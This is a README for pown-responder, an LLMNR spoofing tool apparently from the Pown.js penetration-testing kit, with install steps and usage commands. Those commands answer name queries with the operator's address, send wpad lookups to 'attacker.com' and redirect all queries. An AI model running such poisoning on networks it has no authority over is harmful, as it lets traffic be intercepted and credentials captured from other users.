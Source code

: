 # pown-responder [![Gitter](https://img.shields.io/gitter/room/nwjs/nw.js.svg)](https://gitter.im/pownjs/Lobby)

> LLMNR responder.

## How To Use

The Pown Responder will respond on LLMNR multicast queries. By default the tool will respond to all queries with your external IP address. However, you can achieve more interesting results with the help of the configuration options. 

For example, in order to respond to all requests for wpad with the current host IP address we can execute a command like this:

```sh
$ pown responder -r wpad:
```

Anything after the column is the response so in order respond to wpad with the IP address of attacker.com, the syntax looks like this:

```
$ pown responder -r wpad:attacker.com
```

In order to redirect everything the command looks like this:

```sh
$ pown responder -r *:
```

The default behaviour is non-invasive and simply monitoring.

```sh
$ pown responder
```

## How To Contribute

Pown Responder is still in development although the LLMNR implementation is 100% functional. However, the following number of features will be good to have.

* [ ] mDNS support (can be done with small modifications of the existing code)
* [ ] NBTNS support
* [ ] DNS server support
* [ ] Interactive support (perhaps a generic pown-cli command required)

## Quickstart

From the same directory as your project's package.json, install this module with the following command:

```sh
$ npm install pown-responder --save
```

Once that's done, you can invoke pown responder like this:

```sh
$ POWN_ROOT=. pown responder
```

If installed globally or as part of Pown.js distribution invoke like this:

```sh
$ pown responder
```
